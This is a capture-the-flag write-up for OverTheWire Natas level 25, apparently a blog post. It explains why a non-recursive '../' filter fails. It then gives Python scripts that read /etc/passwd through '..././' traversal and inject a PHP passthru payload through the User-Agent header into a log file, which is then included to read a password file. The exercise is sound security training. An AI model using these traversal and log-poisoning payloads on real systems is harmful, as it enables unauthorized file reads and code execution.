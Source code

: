 ```yaml
---
layout: post
title:  "Natas Level 24 → Level 25"
date:   2021-05-30 17:12:11
categories: ctf wargames web-security
tags: wargames ctf overthewire web-security
series: "OverTheWire: Natas"
excerpt: OMG
mathjax: false
---
```


## Level Goal
Excluding the URL and username, the Level Goal section is blank for the Natas ctf.


## Solution
This level starts with some static text and a dropdown to change the language of the text. As usual, there's also a link to the source code.

Below we see an attempt as sanitization.
```php
function safeinclude($filename){
        // check for directory traversal
        if(strstr($filename,"../")){
            logRequest("Directory traversal attempt! fixing request.");
            $filename=str_replace("../","",$filename);
        }
        // dont let ppl steal our passwords
        if(strstr($filename,"natas_webpass")){
            logRequest("Illegal file access detected! Aborting!");
            exit(-1);
        }
```

While this works at first glance there is a problem. While something such as **../../../../../../etc/passwd** would be caught and rewritten as **etc/passwd** which even if it exists, what would be the result of something like **..././..././..././..././..././..././etc/passwd**? Let's create a Python script and see what happens.

```python
#!/usr/bin/env python
import requests
from requests.auth import HTTPBasicAuth

password = 'G------------------------------c'
session = requests.Session()

auth = HTTPBasicAuth('natas25', password)
url = 'http://natas25.natas.labs.overthewire.org/index.php'
session.post(url=url, auth=auth)  # create session id

passwd = '..././..././..././..././..././etc/passwd'
resp = session.post(url=url, data={"lang": passwd}, auth=auth)

print(resp.text)
```

In the output we see the contents of /etc/passwd. The reason this worked is because the sanitzation attempt in not recursive. Let's look at a the following portion of the directory traversal string and see what's going on.
```
..././
↑↑↑↑↑↑
123456
```

The function looks for **../** and removes any occurances found.  In the above example numbers 2, 3, and 4 meet this criteria and are deleted. Starting again at 5 a dot is encountered, but 6 is a slash. The sanitization has completed. The sanitized string now consists of 1, 5, and 6. This string is now considered safe by the rest of the program.

Now let's look at the logging function:
```php
function logRequest($message){
        $log="[". date("d.m.Y H::i:s",time()) ."]";
        $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
        $log=$log . " \"" . $message ."\"\n"; 
        $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
        fwrite($fd,$log);
        fclose($fd);
    }
```

Notice that the log contains our User Agent. This is set in the headers and is something we can control. We should be able to inline a simple php script that writes the natas25 password to the log. Since we have the path and name of the log file, we can use the weakness in the directory traversal filter and avoid the natas_webpass filter all together.

Let's update the Python script:
```python
#!/usr/bin/env python
import requests
from requests.auth import HTTPBasicAuth

password = 'G------------------------------c'
session = requests.Session()

auth = HTTPBasicAuth('natas25', password)
url = 'http://natas25.natas.labs.overthewire.org/index.php'
session.post(url=url, auth=auth)  # create session id

headers = {"User-Agent": "<? passthru('cat /etc/natas_webpass/natas26'); ?>"}
id = session.cookies["PHPSESSID"]  # read session id

log = "..././..././..././..././..././var/www/natas/natas25/logs/natas25_" + id + ".log"
resp = session.post(url=url, headers=headers, data={"lang": log}, auth=auth)

print(resp.text)
```